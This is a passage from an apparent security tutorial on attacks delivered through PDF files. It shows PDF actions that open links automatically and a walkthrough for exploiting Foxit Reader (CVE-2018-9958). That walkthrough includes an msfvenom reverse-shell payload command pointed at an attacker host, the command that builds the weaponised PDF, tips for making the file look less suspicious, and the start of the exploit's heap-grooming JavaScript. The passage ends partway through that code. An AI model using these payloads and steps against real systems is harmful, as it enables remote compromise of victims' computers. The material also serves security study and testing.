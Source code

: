 ![bank2](../assets/img/hacking-with-pdf/bank2.png)

![bank3](../assets/img/hacking-with-pdf/bank3.png)

#### Open Malicious Link

An attacker can embed a malicious link in a PDF, when the victim opens the PDF a popup message of security warning will show, if the link looks legitimate the victim may click allow and open a malicious website.

The URI method allowed launching a link while opening the PDF, which can misuse by attackers to launch malicious links.

```
<<
/Type /Action
/S /URI
/URI (https://twitter.com/0xCyberY)
>>
```
The same can be approached using app.launchURL() function in the javascript object.

```
<<
/Type /Action
/S /JavaScript
/JS
(
app.launchURL("https://twitter.com/0xCyberY", true);
)
>>
```
![url1](../assets/img/hacking-with-pdf/url1.png)


### RCE

Using outdated versions of PDF reader or embedded executable files into PDF may lead to remote code execution, For demonstration will use Foxit Reader 9.0.1.1049 to exploit [CVE-2018-9958](https://www.exploit-db.com/exploits/49116){:target="_blank" rel="noopener"}.

- We need to download the exploit from exploit-db.
- Generate executable payload using `msfvenom -p windows/shell_reverse_tcp -f exe LHOST=192.168.1.10 LPORT=443 -o shell.exe`.
- Run the exploit `python3 49116.py \\\\192.168.1.10\\\share\\shell.exe remote_code_exe.pdf ` to create the PDF file.

This exploit will create an empty PDF embedded with a javascript payload this look very suspious to the victim, for that will inject the script into a nonempty PDF so it can't be suspicious.

```
var heap_ptr   = 0;
var foxit_base = 0;
var pwn_array  = [];

function prepare_heap(size){
    var arr = new Array(size);
    for(var i = 0; i < size; i++){
        arr[i] = this.addAnnot({type: "Text"});;
        if (typeof arr[i] == "object"){
            arr[i].destroy();
        }
    }
}

function gc() {
    const maxMallocBytes = 128 * 0x100000;
```